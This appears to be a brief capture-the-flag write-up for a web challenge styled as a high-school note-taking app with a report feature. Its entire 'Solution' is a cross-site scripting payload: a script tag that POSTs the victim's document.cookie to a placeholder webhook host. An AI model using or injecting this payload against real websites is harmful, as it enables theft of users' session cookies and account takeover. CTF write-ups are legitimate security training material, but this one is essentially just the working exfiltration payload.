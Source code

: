 # High School Project 01

I was tasked to create this note taking app for my high school project. Hopefully its all good and safe! To allow for PDPA compliance, there's even a report feature to report nottinotti notes!

## Solution

<script>
fetch('https://YOUR-WEBHOOK-HERE', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>



